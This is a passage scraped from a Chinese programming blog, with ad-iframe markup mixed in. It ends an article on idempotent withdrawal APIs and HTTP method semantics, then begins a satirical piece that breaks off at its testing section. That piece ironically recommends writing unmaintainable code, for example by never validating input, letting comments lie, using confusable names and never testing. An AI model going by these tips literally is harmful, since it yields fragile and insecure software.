S%3DALNI_MaPFfB0uijUu4CzHZxIMtKnmGEWwA&amp;prev_fmts=0x0%2C1200x280%2C704x280&amp;nras=4&amp;correlator=2605610607608&amp;frm=20&amp;pv=1&amp;ga_vid=1696476649.1684158276&amp;ga_sid=1684158276&amp;ga_hid=1171532177&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=3116&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=300&amp;eid=44773809%2C44759926%2C44759837%2C44759875%2C31074602%2C44772268%2C44785295%2C44788442%2C44789779&amp;oid=2&amp;psts=ABHeCvgfLp1ykdGpbDD9Xndkx5TF0SDL5u1pYEK34DDNHl6G0d8D5fMiXgShhTlHrQzeQ9FuvTFdL5J8JiXDnZ2EJ-lAMD8&amp;pvsid=3610621802774067&amp;tmod=1738974273&amp;uas=3&amp;nvt=1&amp;ref=https%3A%2F%2Fcoolshell.cn%2Fpage%2F26&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=4&amp;uci=a!4&amp;btvi=2&amp;fsb=1&amp;xpc=whuV7gMGuE&amp;p=https%3A//coolshell.cn&amp;dtd=70" data-google-container-id="a!4" data-google-query-id="CLTdhcm99_4CFRGfvQod1XUIEA" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>


**int** create_ticket();

**bool** idempotent_withdraw(ticket_id, account_id, amount);


create_ticket的语义是获取一个服务器端生成的唯一的处理号ticket_id，它将用于标识后续的操作。idempotent_withdraw和withdraw的区别在于关联了一个ticket_id，一个ticket_id表示的操作至多只会被处理一次，每次调用都将返回第一次调用时的处理结果。这样，idempotent_withdraw就符合幂等性了，客户端就可以放心地多次调用。

基于幂等性的解决方案中一个完整的取钱流程被分解成了两个步骤：1.调用create_ticket()获取ticket_id；2.调用idempotent_withdraw(ticket_id, account_id, amount)。虽然create_ticket不是幂等的，但在这种设计下，它对系统状态的影响可以忽略，加上idempotent_withdraw是幂等的，所以任何一步由于网络等原因失败或超时，客户端都可以重试，直到获得结果。如图2所示：

[](https://images.cnblogs.com/cnblogs_com/weidagang2046/201106/201106042051059820.png)

图2


和分布式事务相比，幂等设计的优势在于它的轻量级，容易适应异构环境，以及性能和可用性方面。在某些性能要求比较高的应用，幂等设计往往是唯一的选择。


**HTTP的幂等性**

HTTP协议本身是一种面向资源的应用层协议，但对HTTP协议的使用实际上存在着两种不同的方式：一种是RESTful的，它把HTTP当成应用层协议，比较忠实地遵守了HTTP协议的各种规定；另一种是SOA的，它并没有完全把HTTP当成应用层协议，而是把HTTP协议作为了传输层协议，然后在HTTP之上建立了自己的应用层协议。本文所讨论的HTTP幂等性主要针对RESTful风格的，不过正如上一节所看到的那样，幂等性并不属于特点的协议，它是分布式系统的一种特性；所以，不论是SOA还是RESTful的Web API设计都应该考虑幂等性。下面将介绍HTTP GET、DELETE、PUT、POST四种主要方法的语义和幂等性。

HTTP GET方法用于获取资源，不应有副作用，所以是幂等的。比如：GET http://www.bank.com/account/123456，不会改变资源的状态，不论调用一次还是N次都没有副作用。请注意，这里强调的是一次和N次具有相同的副作用，而不是每次GET的结果相同。GET http://www.news.com/latest-news这个HTTP请求可能会每次得到不同的结果，但它本身并没有产生任何副作用，因而是满足幂等性的。

HTTP DELETE方法用于删除资源，有副作用，但它应该满足幂等性。比如：DELETE http://www.forum.com/article/4231，调用一次和N次对系统产生的副作用是相同的，即删掉id为4231的帖子；因此，调用者可以多次调用或刷新页面而不必担心引入错误。

比较容易混淆的是HTTP POST和PUT。POST和PUT的区别容易被简单地误认为“POST表示创建资源，PUT表示更新资源”；而实际上，二者均可用于创建资源，更为本质的差别是在幂等性方面。在HTTP规范中对POST和PUT是这样定义的：

<iframe id="aswift_7" name="aswift_7" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=371703248&amp;adf=4181518769&amp;pi=t.aa~a.425447425~i.64~rp.4&amp;daaos=1684125332196&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684158931&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F4787.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChEI8LCHowYQ1PStmYmQo8OEARI5ANXa3bhZjSbjpR2Ky5sXguehGFIR__vJoPM4bwCD7fuRYR9uY-SCCRiE6_Q3YTmziHzoctpGc9pO&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684159103960&amp;bpp=1&amp;bdt=2117&amp;idt=1&amp;shv=r20230510&amp;mjsv=m202305090101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D636439885c84b7b2-22e35244cfe000aa%3AT%3D1684158359%3ART%3D1684158359%3AS%3DALNI_MaJKZKQuAMegGx6VagtAFLZRKMVVw&amp;gpic=UID%3D00000c06349594aa%3AT%3D1684158359%3ART%3D1684158359%3AS%3DALNI_MaPFfB0uijUu4CzHZxIMtKnmGEWwA&amp;prev_fmts=0x0%2C1200x280%2C704x280%2C704x280%2C704x280%2C1447x764%2C1005x124&amp;nras=8&amp;correlator=2605610607608&amp;frm=20&amp;pv=1&amp;ga_vid=1696476649.1684158276&amp;ga_sid=1684158276&amp;ga_hid=1171532177&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=5320&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=2322&amp;eid=44773809%2C44759926%2C44759837%2C44759875%2C31074602%2C44772268%2C44785295%2C44788442%2C44789779&amp;oid=2&amp;psts=ABHeCvgfLp1ykdGpbDD9Xndkx5TF0SDL5u1pYEK34DDNHl6G0d8D5fMiXgShhTlHrQzeQ9FuvTFdL5J8JiXDnZ2EJ-lAMD8%2CABHeCvimgkJUYOzF_wKH-Xh6l9uqkPpaQAiT-bkBSopG31i-Jj2rqPhYremd24BdO_jgbU4jObIV-G6ljcLWYR4TGj6CKiIi12JasEnoM91r_Emv7A0%2CABHeCvjs9W-d0EGjqY9lXvF4lg73OUSjCABRn-yiZHm8TQrK2OwZY4eU1igxRkAp8oc9uk6zyaHU6bFejUZdwRkVabk5XdgH%2CABHeCvj5G4dJPsJ-CxGV8CAaC7z9bXyXQ5IDNeZ1ATnrV2TGTuf89NWqzJtmgMVXdMD_L3CDOjfkE84xlsw7zMWf-E0N1Qo9%2CABHeCvhZAJIibE_hXaCblKkUsCpAZnWzjbDUv6CZPRgprXpF6LjcXSVTX988t5l2ruHEfbl6nXYAtXrEt8PT7EI62_RK4Q&amp;pvsid=3610621802774067&amp;tmod=1738974273&amp;uas=3&amp;nvt=1&amp;ref=https%3A%2F%2Fcoolshell.cn%2Fpage%2F26&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=8&amp;uci=a!8&amp;btvi=5&amp;fsb=1&amp;xpc=2a5weadfrT&amp;p=https%3A//coolshell.cn&amp;dtd=1651" data-google-container-id="a!8" data-google-query-id="CLDz58m99_4CFc-I6QUdfV0D0Q" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>

> *The POST method is used to request that the origin server accept the entity enclosed in the request as a new subordinate of the resource identified by the Request-URI in the Request-Line. ……* *If a resource has been created on the origin server, the response SHOULD be 201 (Created) and contain an entity which describes the status of the request and refers to the new resource, and a Location header.*
>
> *The PUT method requests that the enclosed entity be stored under the supplied Request-URI. If the Request-URI refers to an already existing resource, the enclosed entity SHOULD be considered as a modified version of the one residing on the origin server. If the Request-URI does not point to an existing resource, and that URI is capable of being defined as a new resource by the requesting user agent, the origin server can create the resource with that URI.*

<iframe id="aswift_4" name="aswift_4" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=371703248&amp;adf=3907080873&amp;pi=t.aa~a.425447425~i.66~rp.4&amp;daaos=1684125332196&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684158931&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F4787.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChEI8LCHowYQ1PStmYmQo8OEARI5ANXa3bhZjSbjpR2Ky5sXguehGFIR__vJoPM4bwCD7fuRYR9uY-SCCRiE6_Q3YTmziHzoctpGc9pO&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684159103942&amp;bpp=1&amp;bdt=2100&amp;idt=1&amp;shv=r20230510&amp;mjsv=m202305090101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D636439885c84b7b2-22e35244cfe000aa%3AT%3D1684158359%3ART%3D1684158359%3AS%3DALNI_MaJKZKQuAMegGx6VagtAFLZRKMVVw&amp;gpic=UID%3D00000c06349594aa%3AT%3D1684158359%3ART%3D1684158359%3AS%3DALNI_MaPFfB0uijUu4CzHZxIMtKnmGEWwA&amp;prev_fmts=0x0%2C1200x280%2C704x280%2C704x280%2C704x280%2C1447x764%2C1005x124%2C704x280&amp;nras=9&amp;correlator=2605610607608&amp;frm=20&amp;pv=1&amp;ga_vid=1696476649.1684158276&amp;ga_sid=1684158276&amp;ga_hid=1171532177&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=6012&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=3016&amp;eid=44773809%2C44759926%2C44759837%2C44759875%2C31074602%2C44772268%2C44785295%2C44788442%2C44789779&amp;oid=2&amp;psts=ABHeCvgfLp1ykdGpbDD9Xndkx5TF0SDL5u1pYEK34DDNHl6G0d8D5fMiXgShhTlHrQzeQ9FuvTFdL5J8JiXDnZ2EJ-lAMD8%2CABHeCvimgkJUYOzF_wKH-Xh6l9uqkPpaQAiT-bkBSopG31i-Jj2rqPhYremd24BdO_jgbU4jObIV-G6ljcLWYR4TGj6CKiIi12JasEnoM91r_Emv7A0%2CABHeCvjs9W-d0EGjqY9lXvF4lg73OUSjCABRn-yiZHm8TQrK2OwZY4eU1igxRkAp8oc9uk6zyaHU6bFejUZdwRkVabk5XdgH%2CABHeCvj5G4dJPsJ-CxGV8CAaC7z9bXyXQ5IDNeZ1ATnrV2TGTuf89NWqzJtmgMVXdMD_L3CDOjfkE84xlsw7zMWf-E0N1Qo9%2CABHeCvhZAJIibE_hXaCblKkUsCpAZnWzjbDUv6CZPRgprXpF6LjcXSVTX988t5l2ruHEfbl6nXYAtXrEt8PT7EI62_RK4Q&amp;pvsid=3610621802774067&amp;tmod=1738974273&amp;uas=3&amp;nvt=1&amp;ref=https%3A%2F%2Fcoolshell.cn%2Fpage%2F26&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=5&amp;uci=a!5&amp;btvi=6&amp;fsb=1&amp;xpc=nLxPLIOzLB&amp;p=https%3A//coolshell.cn&amp;dtd=2001" data-google-container-id="a!5" data-google-query-id="CJHH-8m99_4CFYnCfAod0xwD6w" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>

POST所对应的URI并非创建的资源本身，而是资源的接收者。比如：POST http://www.forum.com/articles的语义是在http://www.forum.com/articles下创建一篇帖子，HTTP响应中应包含帖子的创建状态以及帖子的URI。两次相同的POST请求会在服务器端创建两份资源，它们具有不同的URI；所以，POST方法不具备幂等性。

而PUT所对应的URI是要创建或更新的资源本身。比如：PUT http://www.forum/articles/4231的语义是创建或更新ID为4231的帖子。对同一URI进行多次PUT的副作用和一次PUT是相同的；因此，PUT方法具有幂等性。

在介绍了几种操作的语义和幂等性之后，我们来看看如何通过Web API的形式实现前面所提到的取款功能。很简单，用POST /tickets来实现create_ticket；用PUT /accounts/account_id/ticket_id&amount=xxx来实现idempotent_withdraw。值得注意的是严格来讲amount参数不应该作为URI的一部分，真正的URI应该是/accounts/account_id/ticket_id，而amount应该放在请求的body中。这种模式可以应用于很多场合，比如：论坛网站中防止意外的重复发帖。


**总结**

上面简单介绍了幂等性的概念，用幂等设计取代分布式事务的方法，以及HTTP主要方法的语义和幂等性特征。其实，如果要追根溯源，幂等性是数学中的一个概念，表达的是N次变换与1次变换的结果相同，有兴趣的读者可以从[Wikipedia](https://en.wikipedia.org/wiki/Idempotence)上进一步了解。


**参考**

[RFC 2616, Hypertext Transfer Protocol — HTTP/1.1, Method Definitions](https://www.w3.org/Protocols/rfc2616/rfc2616-sec9.html)

[The Importance of Idempotence](http://devhawk.net/2007/11/09/the-importance-of-idempotence/)

# 如何写出无法维护的代码

#####  [2011年06月03日 ](https://coolshell.cn/articles/4758.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [146 条评论](https://coolshell.cn/articles/4758.html#comments) 253,992 人阅读

酷壳里有很多我觉得很不错的文章，但是访问量最大的却是那篇《[6个变态的Hello World](https://coolshell.cn/articles/914.html)》，和它能在本站右边栏“**全站热门**”中出现的还有“[如何加密源代码](https://coolshell.cn/articles/933.html)”，以及[编程真难啊](https://coolshell.cn/articles/1391.html)等这样的文章。可见本站的读者们的偏好，我也相信你们都是“身怀绝技”的程序员。所以，今天给大家推荐这篇文章，相信一定能触动大家的兴奋点。

这篇文章的原文在这里（http://mindprod.com/jgloss/unmain.html），我看完后我想说——

1. **什么叫“创造力”，创造力就是——就算是要干一件烂事都能干得那么漂亮那么有创意的能力。**
2. **什么叫“抓狂”，抓狂就是——以一种沉着老练的不屈不挠的一本正经的精神一点一点把你推向崩溃的边缘**。

我把文章节选了一些，也并没有完全翻译，简译一下，也加入了一些自己的调侃。对于有下面这些编程习惯的朋友，请大家对号入座。另外，维护程序的朋友们，你们死定了！！

> If builders built buildings the way programmers write programs, then the first woodpecker that came along would destroy civilization. （如果建筑师盖房子就像程序员写程序一样，那么，第一只到来的啄木鸟就能毁掉我们的文明）
>
> ~ Gerald Weinberg (born: 1933-10-27 age: 77) [Weinberg’s Second Law](http://www.geraldmweinberg.com/Site/Home.html)

<iframe id="aswift_2" name="aswift_2" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=2703831098&amp;adf=3346589709&amp;pi=t.aa~a.425447425~i.9~rp.4&amp;daaos=1684125332196&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684153510&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F4758.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChEI8LCHowYQ1PStmYmQo8OEARI5ANXa3bim9c41p-JKXLkEi-KVTJdxa-e0Cxw0dwSLXZjO0qT_O3vpp9jsYDKZSBVFzHlFy0nNMshi&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684159121749&amp;bpp=1&amp;bdt=1674&amp;idt=1&amp;shv=r20230510&amp;mjsv=m202305090101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D636439885c84b7b2-22e35244cfe000aa%3AT%3D1684158359%3ART%3D1684158359%3AS%3DALNI_MaJKZKQuAMegGx6VagtAFLZRKMVVw&amp;gpic=UID%3D00000c06349594aa%3AT%3D1684158359%3ART%3D1684158359%3AS%3DALNI_MaPFfB0uijUu4CzHZxIMtKnmGEWwA&amp;prev_fmts=0x0%2C1200x280&amp;nras=3&amp;correlator=2678895895379&amp;frm=20&amp;pv=1&amp;ga_vid=1696476649.1684158276&amp;ga_sid=1684158276&amp;ga_hid=1414147354&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=1409&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=0&amp;eid=44773809%2C44759926%2C44759837%2C44759875%2C31074469%2C44788441%2C44789923&amp;oid=2&amp;pvsid=995949648442578&amp;tmod=1738974273&amp;uas=0&amp;nvt=1&amp;ref=https%3A%2F%2Fcoolshell.cn%2Fpage%2F26&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=3&amp;uci=a!3&amp;btvi=1&amp;fsb=1&amp;xpc=misWKAfVQ3&amp;p=https%3A//coolshell.cn&amp;dtd=54" data-google-container-id="a!3" data-google-query-id="CJX6w9G99_4CFbJeDwIdg10EdQ" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>

目录


[程序命名](https://coolshell.cn/articles/4758.html#程序命名)[伪装欺诈](https://coolshell.cn/articles/4758.html#伪装欺诈)[文档和注释](https://coolshell.cn/articles/4758.html#文档和注释)[程序设计](https://coolshell.cn/articles/4758.html#程序设计)[混乱你的代码](https://coolshell.cn/articles/4758.html#混乱你的代码)[测试](https://coolshell.cn/articles/4758.html#测试)[其它](https://coolshell.cn/articles/4758.html#其它)[Write Everywhere, Read Nowhere](https://coolshell.cn/articles/4758.html#Write_Everywhere_Read_Nowhere)

#### 程序命名

- **容易输入的名字**。比如：Fred，asdf
- **单字母的变量名**。比如：a,b,c, x,y,z（陈皓注：如果不够用，可以考虑a1,a2,a3,a4,….）
- **有创意地拼写错误**。比如：SetPintleOpening， SetPintalClosing。这样可以让人很难搜索代码。
- **抽象**。比如：ProcessData, DoIt, GetData… 抽象到就跟什么都没说一样。
- **缩写**。比如：WTF，RTFSC …… （陈皓注：使用拼音缩写也同样给力，比如： BT，TMD，TJJTDS）
- **随机大写字母**。比如：gEtnuMbER..
- **重用命名**。在内嵌的语句块中使用相同的变量名有奇效。
- **使用重音字母**。比如：int  ínt（注：第二个 ínt不是int）
- **使用下划线**。比如：_, __, ___。
- **使用不同的语言**。比如混用英语，德语，或是中文拼音。
- **使用字符命名**。比如：slash, asterix, comma…
- **使用无关的单词**。比如：god, superman, iloveu….
- **混淆l和1**。字母l和数字1有时候是看不出来的。

#### 伪装欺诈

- **把注释和代码交织在一起**。

**for**(j=0; j<array_len; j+ =8)

{

​    total += array[j+0 ];

​    total += array[j+1 ];

​    total += array[j+2 ]; /* Main body of

​    total += array[j+3]; * loop is unrolled

​    total += array[j+4]; * for greater speed.

​    total += array[j+5]; */

​    total += array[j+6 ];

​    total += array[j+7 ];

}

- **隐藏宏定义**。如：#define a=b a=0-b，当人们看到a=b时，谁也想不到那是一个宏。

- **换行**。如下所示，下面的示例使用搜索xy_z变得困难。

**#define local_var xy\**

_z // local_var OK

- **代码和显示不一致**。比如，你的界面显示叫postal code，但是代码里确叫 zipcode.

- **隐藏全局变量**。把使用全局变量以函数参数的方式传递给函数，这样可以让人觉得那个变量不是全局变量。

- **使用同意词**。如：

**#define xxx global_var // in file std.h **

**#define xy_z xxx // in file ..\other\substd.h **

**#define local_var xy_z // in file ..\codestd\inst.h**

- **使用相似的变量名**。如：单词相似，swimmer 和 swimner，字母相似：ilI1| 或 oO08。parselnt 和 parseInt， D0Calc 和 DOCalc。还有这一组：xy_Z, xy__z, _xy_z, _xyz, XY_Z, xY_z, Xy_z。

- **重载函数**。使用相同的函数名，但是其功能和具体实现完全没有关系。

- **操作符重载**。重载操作符可以让你的代码变得诡异，感谢CCTV，感谢C++。这个东西是可以把混乱代码提高到一种艺术的形式。比如：重载一个类的 ! 操作符，但实际功能并不是取反，让其返回一个整数。于是，如果你使用 ! ! 操作符，那么，有意思的事就发生了—— 先是调用类的重载 ! 操作符，然后把其返回的整数给 ! 成了 布尔变量，如果是 !!! 呢？呵呵。

- **#define**。看过本站那些混乱代码的文章，你都会知道宏定义和预编译对于写出不可读的代码的重大意义。不过，一个具有想像力的东西是——在头文件中使用预编译来查看这个头文件被include了几次，而被include不同的次数时，其中的函数定义完全不一样。

**#ifndef DONE**

**#ifdef TWICE**

// put stuff here to declare 3rd time around

**void** g(**char*** str);

**#define DONE**

**#else // TWICE**

**#ifdef ONCE**

// put stuff here to declare 2nd time around<

**void** g(**void*** str);

**#define TWICE**

**#else // ONCE**

// put stuff here to declare 1st time around

**void** g(std::string str);

**#define ONCE**

**#endif // ONCE**

**#endif // TWICE**

**#endif // DONE**

#### 文档和注释

- **在注释中撒谎**。你不用真的去撒谎，只需在改代码的时候不要更新注释就可以了。
- **注释明显的东西**。比如：/* add 1 to i */。（参看本站的“[五种应该避免的注释](https://coolshell.cn/articles/2746.html)”）
- **只注释是什么，而不是为什么**。
- **不要注释秘密**。如果你开发一个航班系统，请你一定要保证每有一个新的航班被加入，就得要修改25个以上的位置的程序。千万别把这个事写在文档中。
- **注重细节**。当你设计一个很复杂的算法的时候，你一定要把所有的详细细设计都写下来，没有100页不能罢休，段落要有5级以上，段落编号要有500个以上，例如：1.2.4.6.3.13 – Display all impacts for activity where selected mitigations can apply (short pseudocode omitted). 这样，当你写代码的时候，你就可以让你的代码和文档一致，如：Act1_2_4_6_3_13()
- **千万不要注释度衡单位**。比如时间用的是秒还是毫秒，尺寸用的是像素还是英寸，大小是MB还是KB。等等。另外，在你的代码里，你可以混用不同的度衡单位，但也不要注释。
- **Gotchas**。陷阱，千万不要注释代码中的陷阱。
- **在注释和文档中发泄不满**。（参看本站的“[五种应该避免的注释](https://coolshell.cn/articles/2746.html)”）

#### 程序设计

- **Java Casts**。Java的类型转型是天赐之物。每一次当你从Collection里取到一个object的时候，你都需要把其转回原来的类型。因些，这些转型操作会出现在N多的地方。如果你改变了类型，那么你不一定能改变所有的地方。而编译器可能能检查到，也可能检查不到。
- **利用Java的冗余**。比如：Bubblegum b = new Bubblegom(); 和 swimmer = swimner + 1; 注意变量间的细微差别。
- **从不验证**。从不验证输入的数据，从不验证函数的返回值。这样做可以向大家展示你是多么的信任公司的设备和其它程序员。
- **不要封装**。调用者需要知道被调用的所有的细节。
- **克隆和拷贝**。为了效率，你要学会使用copy + paste。你几乎都不用理解别人的代码，你就可以高效地编程了。（陈皓注：Copy + Paste出来的代码bug多得不能再多）
- **巨大的listener**。写一个listener，然后让你的所有的button类都使用这个listener，这样你可以在这个listener中整出一大堆if…else…语句，相当的刺激。
- **使用三维数组**。如果你觉得三维还不足够，你可以试试四维。
- **混用**。同时使用类的get/set方法和直接访问那个public变量。这样做的好处是可以极大的挫败维护人员。
- **包装，包装，包装**。把你所有的API都包装上6到8遍，包装深度多达4层以上。然后包装出相似的功能。
- **没有秘密**。把所有的成员都声明成public的。这样，你以后就很难限制其被人使用，而且这样可以和别的代码造成更多的耦合度，可以让你的代码存活得更久。
- **排列和阻碍**。把drawRectangle(height, width) 改成 drawRectangle(width, height)，等release了几个版本后，再把其改回去。这样维护程序的程序员们将不能很快地明白哪一个是对的。
- **把变量改在名字上**。例如，把setAlignment(int alignment)改成，setLeftAlignment, setRightAlignment, setCenterAlignment。
- **Packratting**。保留你所有的没有使用的和陈旧的变量，方法和代码。
- **That’s Fina**l。Final你所有的子结点的类，这样，当你做完这个项目后，没有人可以通过继承来扩展你的类。java.lang.String不也是这样吗？
- **避免使用接口**。在java中，BS接口，在C++中BS使用虚函数。
- **避免使用layout**。这样就使得我们只能使用绝对坐标。如果你的老大强制你使用layout，你可以考虑使用GridBagLayout，然后把grid坐标hard code.
- **环境变量**。如果你的代码需要使用环境变量。(getenv() – C++ / System.getProperty() – Java )，那么，你应该把你的类的成员的初始化使用环境变量，而不是构造函数。
- **使用Magic numbe**r。参看《[Linux一个插曲](https://coolshell.cn/articles/4576.html)》。
- **使用全局变量**。1）把全局变量的初始化放在不同的函数中，就算这个函数和这个变量没有任何关系，这样能够让我们的维护人员就像做侦探工作一样。2）使用全局变量可以让你的函数的参数变得少一些。
- **配置文件**。配置文件主要用于一些参数的初始化。在编程中，我们可以让配置文件中的参数名和实际程序中的名字不一样。
- **膨胀你的类**。让你的类尽可能地拥有各种臃肿和晦涩的方法。比如，你的类只实现一种可能性，但是你要提供所有可能性的方法。不要定义其它的类，把所有的功能都放在一个类中。
- **使用子类**。面向对象是写出无法维护代码的天赐之物。如果你有一个类有十个成为（变量和方法）你可以考虑写10个层次的继承，然后把这十个属性分别放在这十个层次中。如果可能的话，把这十个类分别放在十个不同的文件中。

#### 混乱你的代码

- **使用XML**。XML的强大是无人能及的。使用XML你可以把本来只要10行的代码变成100行。而且，还要逼着别人也有XML。（参看，[信XML得永生](https://coolshell.cn/articles/2504.html)，[信XML得自信](https://coolshell.cn/articles/3498.html)）
- **混乱C代码**。在《[如何加密源代码](https://coolshell.cn/articles/933.html)》中已经说过一些方法了，这里再补充一些。
- **使用不同的进制**。比如：10 和010不是一样的。再比如：array = new int[]{  111,  120,  013,  121,};
- **尽量使用void\***。然后把其转成各种类型
- **使用隐式的转型**。C++的构造函数可以让你神不知鬼不觉得完成转型。
- **分解条件表达式**。如：把 a==100分解成，a>99 && a<101
- **学会利用分号**。如：if ( a );else;{  int d;  d = c;}
- **间接转型**。如：把double转string，写成new Double(d).toString() 而不是 Double.toString(d)
- **大量使用嵌套**。一个NB的程序员可以在一行代码上使用超过10层的小括号（），或是在一个函数里使用超过20层的语句嵌套{}，把嵌套的if else 转成 [? :] 也是一件很NB的事。
- **使用C的变种数组**。myArray[i] 可以变成*(myArray + i) 也可以变成 *(i + myArray) 其等价于 i[myArray]。再看一个函数调用的示例，函数声明：int myfunc(int q, int p) { return p%q; } 函数调用myfunc(6291, 8)[Array];
- **长代码行**。一行的代码越长越好。这样别人阅读时就需要来来回回的
- **不要较早的return**。不要使用goto，不要使用break，这样，你就需要至少5层以上的if-else来处理错误。
- **不要使用{}**。不要在if else使用{}，尤其是在你重量地使用if-else嵌套时，你甚至可以在其中乱缩进代码，这样一来，就算是最有经验的程序员也会踩上陷阱。
- **使用宏定义**。宏定义绝对是混乱C/C++代码的最佳利器。参看 [老手是这样教新手编程的](https://coolshell.cn/articles/2420.html)。
- **琐碎的封装**。比较封装一个bool类，类里面什么都做，就是一个bool.
- **循环**。千万不可用for(int i=0; i<n; i++)使用while代替for，交换n和i，把<改成<=，使用 i–调整步伐 。

#### 测试

- **从不测试**。千万不要测试任何的出错处理，从来也不检测系统调用的返回值。
